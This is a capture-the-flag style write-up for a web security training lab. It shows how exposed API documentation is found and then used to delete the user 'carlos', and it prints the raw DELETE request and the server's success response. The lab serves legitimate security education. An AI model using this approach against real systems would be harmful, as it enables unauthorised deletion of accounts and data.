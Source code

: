 To solve the lab, find the exposed API documentation and delete `carlos`. You can log in to your own account using the following credentials: `wiener:peter`.

#### Required knowledge

To solve this lab, you'll need to know:

- What API documentation is.
- How API documentation may be useful to an attacker.
- How to discover API documentation.

These points are covered in our API Testing Academy topic.

# Solution
Start by accessing the account page to get a first look.  
![](./img/Lab_1_Login.png)


When accessing the ```/my-account``` endpoint an endpoint for the API is discovered in both Burpsuite target tab and the HTML of the site.  
![](./img/Lab_1_Burp_target.png)


![](./img/Lab_1_Form_API_endpoint.png)


Accessing the ```/api``` endpoint the documentation for the API is presented.  
![](./img/Lab_1_API_Documentation.png)


To delete a user a ```DELETE``` request should be sent to the ```/user/[username]``` endpoint. To delete the ```carlos``` user, send a request to ```/user/carlos`

```http
DELETE /api/user/carlos HTTP/2
Host: 0a22009a04b49fc98152bdf7006a00d2.web-security-academy.net
Cookie: session=kMvpWotOP5NKOeUUrzigoMNjema8E8SJ
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 25

{"status":"User deleted"}
```



![](./img/Lab_1_Solved%201.png)